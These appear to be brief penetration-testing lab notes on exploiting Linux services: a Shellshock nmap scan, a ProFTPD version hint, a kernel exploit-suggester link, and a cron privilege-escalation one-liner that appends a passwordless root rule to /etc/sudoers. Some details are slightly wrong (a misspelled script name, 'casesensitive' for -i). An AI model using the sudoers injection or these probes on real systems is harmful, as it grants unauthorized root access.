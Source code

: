 # Frequently Exploited Linux services
## Shell Shock
```
CVE 2014-6271
nmap --script=http-shellshok --script-args="http-shellshock.uri='/gettime.cgi'"
```

## FTP
```
ProFTPD 1.3.5
searchsploit!!! to check for some exploit
```
 ## Linux Kernal Exploits
```
GitHub: https://github.com/mzet-/linux-exploit-suggester
```

## Crontab
```
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > suid or executable file by root
aside cron
very important to find!!! "grep -nri 'file content' /path/to/find 2>/dev/null" (-nri for n-->printlinenum,r-->recursive,i-->casesensitive)
```
